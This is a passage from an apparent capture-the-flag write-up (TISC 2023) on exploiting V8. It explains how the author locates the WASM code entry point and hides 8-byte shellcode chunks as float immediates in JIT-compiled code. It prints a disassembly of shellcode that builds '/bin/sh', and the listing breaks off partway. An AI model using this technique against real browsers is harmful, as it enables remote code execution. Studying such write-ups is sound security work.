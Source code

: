 
Now, offset `+0x10` at _that_ memory address (the writeup uses `+0xC`, but things seem to be different in our V8) stores an _uncompressed_ pointer to the entry point of the WASM code. Let's take a look at said code in GDB:

![9_6](/assets/tisc-2023/9_6.png)

We can see that all of our floats ended up appearing as hardcoded immediate values in the generated assembly. Or, if you think about it from a different perspective, this means that we can insert chunks of shellcode 8 bytes long, spaced at regular intervals.

The provided shellcode in the writeup worked, so I used it. Here is what the floats really translate to:

```
// Reminder: all jmp instruction targets are encoded as relative offsets. So this still works even though we don't know the address that the shellcode will end up at.

0x5554c0004321:      push   0x6e69622f
0x5554c0004326:      pop    rax
0x5554c0004327:      jmp    0x5554c0004335

0x5554c0004335:      push   0x68732f
0x5554c000433a:      pop    rbx
0x5554c000433b:      jmp    0x5554c0004349

0x5554c0004349:      shl    rbx,0x20
0x5554c000434d:      nop
0x5554c000434e:      nop
0x5554c000434f:      jmp    0x5554c000435d

0x5554c000435d:      add    rax,rbx
0x5554c0004360:      push   rax
```